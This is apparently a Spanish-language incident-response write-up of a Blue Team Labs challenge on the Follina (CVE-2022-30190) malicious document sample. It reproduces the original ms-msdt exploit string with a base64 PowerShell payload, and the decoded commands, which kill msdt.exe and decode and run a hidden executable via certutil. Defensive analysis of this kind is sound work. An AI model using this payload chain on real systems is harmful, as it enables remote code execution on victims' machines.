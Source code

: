 ```yaml
---
title: Follina-Btlo
date: 2024-02-08 14:10:00 +0800
categories: [Btlo, Challenge]
tags: [Incident Response]
render_with_liquid: false
img_path: Ghimg/btlo/challenge/Follina/img
---
```


## Escenario

Un viernes por la noche, cuando estaba de humor para celebrar su fin de semana, su equipo recibió una alerta con una nueva vulnerabilidad RCE que se estaba explotando activamente en la naturaleza. Se le ha encomendado la tarea de analizar e investigar la muestra para recopilar información para el equipo del fin de semana.

### Used tools
- VirusTotal 
- OSINT


## Presentación

**_Pregunta 1) ¿Cuál es el valor hash SHA1 de la muestra?_**

para calcular el hash de la muestra usamos ```sha1sum```

![ans1](Pasted_image_20240123161555_wf7jf0)


**_Pregunta 2) Según VirusTotal, ¿cuál es el tipo de archivo completo de la muestra proporcionada?_**

subimos el archivo o introducimos el hash en virustotal

![ans2](Pasted_image_20240123090711_qlonei)


**_Pregunta 3) Extraiga la URL que se utiliza dentro de la muestra y envíela_**

Extraemos el archivo para ver la coleccion de archivos xml

![[Pasted image 20240123162358.png]](Pasted_image_20240123162358_xymc2m)

vemos el archivo `document.xml.rels` que guarda los metadatos de nuestro documento, vemos **TargetMode="External"** con la url 

![[Pasted image 20240123162636.png]](Pasted_image_20240123162636_zsfm6p)


**_Pregunta 4) ¿Cuál es el nombre del archivo XML que almacena la URL extraída?_** 

El archivo que contienelos metadatos **document.xml.rels**


**_Pregunta 5) La URL extraída accede a un archivo HTML que desencadena la vulnerabilidad para ejecutar una carga maliciosa. De acuerdo con las funciones de procesamiento HTML, cualquier archivo con menos del `<Numero>` de bytes no invocaría la carga útil. Envíe el `<Número>`_**

RDF842l.html se ha asociado con una vulnerabilidad de ejecución remota de código en la herramienta de diagnóstico de soporte de Microsoft (MSDT), conocida como “Follina” 

este enlace ya no está disponible en línea, pero [@nao_sec](https://twitter.com/nao_sec/status/1530196847679401984) compartió el contenido original de RDF842l.html. [ANY.RUN](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)


```html

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[Sistema .Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+' JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2 R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDU tMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5le GUiOw=='+[char]34+'))'))))i/../../../../../../../../../../ ../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
```

El exploit es un documento HTML que contiene una serie de caracteres A.  Una función de procesamiento HTML tenía un tamaño de búfer codificado y cualquier archivo de menos de 4096 bytes no activaría la carga útil. [Rich Warren](https://twitter.com/buffaloverflow/status/1531168929925713923)


**_Pregunta 6) Después de la ejecución, la muestra intentará eliminar un proceso si ya se está ejecutando. ¿Cómo se llama este proceso?_** 

```
$cmd = "c:\windows\system32\cmd.exe";
Start - Process $cmd  - windowstyle hidden  - ArgumentList "/c taskkill /f /im msdt.exe";
Start - Process $cmd  - windowstyle hidden  - ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```

Al decodificar vemos que intenta eliminar el proceso `msdt.exe`



**_Pregunta 7) Se le pidió que escribiera una regla de detección basada en procesos con el identificador de evento de Windows 4688. ¿Cuáles serían ProcessName y ParentProcessname utilizados en esta regla de detección?_**

ID de evento de Windows 4688 se refiere a la creacion de un nuevo proceso.

Las cargas útiles ejecutadas por este vector de ataque crearán un proceso secundario de msdt.exe bajo el padre de Microsoft Office . [microsoft-office-remote-code-execution-follina-msdt-bug](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)


**_Pregunta 8) Envíe el ID de la técnica MITRE utilizada por el ejemplo para la ejecución_**

vemos en mitre que la técnica para la ejecución de comandos 

![Pasted image 20240123182231.png](Pasted_image_20240123182231_vuayoz)


**_Pregunta 9) Enviar el CVE asociado a la vulnerabilidad que se está explotando_**

CVE-2022-30190
